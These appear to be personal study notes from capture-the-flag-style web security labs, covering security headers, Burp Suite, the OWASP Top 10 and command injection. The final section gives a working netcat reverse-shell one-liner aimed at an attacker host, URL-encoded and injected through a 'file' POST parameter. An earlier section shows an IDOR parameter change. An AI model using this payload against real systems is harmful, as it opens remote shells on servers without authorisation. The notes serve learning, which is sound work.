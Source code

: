 (THB: if you cannot see a website )
```
cat /etc/systemd/resolved.conf
DNS=machineip
sudo systemctl restart systemd-resolved 
```

### Security headers: 
HTTP headers that improve the security of the web application 

Check a spesific site: https://securityheaders.com/

#### CSP: Content-Security-Policy: 
- Admins the domains or sources that are considered safe.
- Prevent XSS 

#### HSTS: Strict-Transport-Security
- Ensures the web browser always connects over HTTPS

#### X-Content-Type-Options:
- Prevent sniffing of MIME on a resource?

#### Referrer-Policy:
- Controls information being sent to a destination webserver when a user is redirected. 


Obfuscator - deobfuscator: https://obf-io.deobfuscate.io/


#### Best practices when writing webapplications:
- Avoid client side validation only
- Refrain for adding untrusted libraries 
- Never hardcode secrets 
- Minify and Obfuscate JS code
- For input fields, compare the input to a list of (un)-allowed characters, and validate the request before sending it to the server. 



#### Burp Suite:

Tips:
- Adding a specific scope in Target -> Sitemap (pick a target scope here)
- Set Scope setting to ignore traffic outside of scope
![[Pasted image 20241123212052.png]]

- We can bypass client-side filtering, example we dont get to write certain characters in a input field, by: 1. Sending some valid input, intercepting it, change post parameters to our payload(JS or something) and remember to URL encode. THEN, forward the request. 


#### OWASP top 10:
- **Broken Access Control**: User is able to access pages on a site which he is not meant to see, such as admin pages.
Example IDOR: Insecure Direct object reference, user can get access to resources you would not be able to such as another persons bank account page. 

```
http://10.10.85.194/note.php?note_id=0 , and we can change parameter: http://10.10.85.194/note.php?note_id=1 to view other users pages.
```


-  **Cryptographic Failures**: Communication done with bad implemented cryptography 

-  **Injection**: XXS and such, input fields on site can be exploited. 

-  **Insecure Design**: Stupid design, ex. we can reset another uses password.

-  **Security Misconfiguration**: Bad configuration of the site, ex. unnecessary features enabled, have existing default accounts on the site, not using HTTP security headers, etc..

-  **Vulnerable and Outdated Components**: Not updating software the site depend on, attacker can find the software version and google for exploits. 

-  **Identification and Authentication Failures**: There is possible to get credentials of other users, ex. site allows weak passwords, weak session cookies -> steal another users cookies and become them on the site. 

-  **Software and Data Integrity Failures**: Data of software can be modified because we do not validate integrity.

Site to validate integrity: https://www.srihash.org/ 
Then we can include integrity for this site in our code: 
```
<script src="https://code.jquery.com/jquery-3.6.1.min.js" integrity="sha256-o88AwQnZB+VDvE9tvIXrMQaPlFFSUTR+nldQm1LuPXQ=" crossorigin="anonymous"></script>

```

-  **Security Logging & Monitoring Failures**: Services not logging activity on their application

-  **Server-Side Request Forgery (SSRF)**: Attacker can get the web application to send requests on their behalf.  



#### Command injection:

It can be hard to validate that a parameter on a web application in vulnerable to Command injection. 

Ex. THM Shell room:
We get info that the POST parameter "file" is vulnerable. 

file=hello.txt   - is a valid command
file=whoami   - is not a valid command 

Combining them works:
```
file=hello.txt;whoami  - is valid, and prints the user 
```

If we want to inject a shell, it can be hard to know which shell and how to inject it. What worked in this case was discovering that the user used: `\usr\sbin\nologin` as its shell, and after some reading, this results in a **struggle to spawn interactive shell sessions**. 

Q: Interactive shell vs non interactive shell?

What worked in this case:
```
Use this shell, and URL encode it:

rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f

URL encoded:
rm+-f+/tmp/f%3b+mkfifo+/tmp/f%3b+cat+/tmp/f+|+/bin/sh+-i+2>%261+|+nc+10.10.211.62+443+>/tmp/f

The whole POST parameter: 
file=hello.txt; rm+-f+/tmp/f%3b+mkfifo+/tmp/f%3b+cat+/tmp/f+|+/bin/sh+-i+2>%261+|+nc+10.10.211.62+443+>/tmp/f;

```

